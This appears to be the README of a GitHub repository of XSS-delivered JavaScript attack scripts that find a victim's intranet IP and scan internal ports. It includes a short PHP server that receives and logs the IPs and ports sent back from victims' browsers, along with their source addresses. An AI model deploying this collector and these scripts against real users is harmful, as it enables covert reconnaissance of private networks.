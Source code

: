 Js_attack - some .js with xss to attack
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js: 
you can make a server to accept ip and port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips
- https://github.com/DigitalInterruption/vulnerable-xss-app/tree/master/scripts



